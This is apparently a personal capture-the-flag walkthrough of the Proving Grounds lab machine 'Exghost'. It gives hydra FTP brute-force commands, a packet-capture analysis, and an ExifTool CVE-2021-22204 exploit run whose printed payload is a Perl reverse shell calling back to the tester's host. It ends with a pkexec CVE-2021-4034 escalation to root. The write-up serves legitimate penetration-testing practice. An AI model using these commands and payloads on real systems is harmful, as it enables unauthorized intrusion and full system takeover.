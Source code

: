 # PG Practice: Exghost
https://medium.com/@vivek-kumar/offensive-security-proving-grounds-walk-through-exghost-2e9a969ef711

`export IP=192.168.70.183`

### All failed so go with Bruteforce
`https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best1050.txt`

```
hydra -t 20 -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P password.txt -vV $IP ftp
```
I know ridiculous `user:system`

### ftp
```
❯ ftp $IP
Connected to 192.168.70.183.
220 (vsFTPd 3.0.3)
Name (192.168.70.183:alvin): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -alh
229 Entering Extended Passive Mode (|||43520|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
226 Directory send OK.
ftp> get backup
local: backup remote: backup
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for backup (126151 bytes).
100% |***********************************************************************************************************************************************|   123 KiB  126.06 KiB/s    00:00 ETA
226 Transfer complete.
126151 bytes received in 00:01 (105.24 KiB/s)
```

### wireshark to the packet capture
```
POST /exiftest.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------169621313238602050593908562572
Content-Length: 14806
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/
Upgrade-Insecure-Requests: 1

-----------------------------169621313238602050593908562572
Content-Disposition: form-data; name="myFile"; filename="testme.jpg"           // <- myFile as the entry
Content-Type: image/jpeg
```
opening it with Wireshark to enumerate further. Filtering the HTTP packets, we see that someone uploaded an image to ip/exiftest.php and the upload was successful. We also can see the version of ExifTool running on the box.

Under `line-based text data` of the 200 response. File uploaded successfully :) ExifTool Version Number         : 12.23\n

### Let's try to upload a file
```
echo 'wqer 1234' > test01.txt

curl -F 'myFile=@test01.txt' -k http://192.168.70.183/exiftest.php
File not allowed.
```

### Exploit the exiftool by gooling its version
https://www.exploit-db.com/exploits/50911

```
❯ python3 exploit.py -s 192.168.49.70 7890

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(7890,inet_aton('192.168.49.70')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```
```
curl -F 'myFile=@image.jpg' -k http://192.168.70.183/exiftest.php
```

### Got the user.txt
##### linpeas
```
Vulnerable to CVE-2021-4034 # https://github.com/topics/cve-2021-4034

Vulnerable to CVE-2021-3560 # Not working, tried CVE-2021-3560-Polkit-Privilege-Esclation
```

###
There is no compiler installed on the machine. I cloned a few of the available exploits but any C code compiled on my system doesn’t seem to work on the target machine. Finding a python exploit for the same. And it works giving us a root shell. Refer: https://github.com/joeammond/CVE-2021-4034

# Sum up
Try python script when above issues happened
https://github.com/topics/cve-2021-4034

I found this one instead. https://github.com/A1vinSmith/CVE-2021-4034
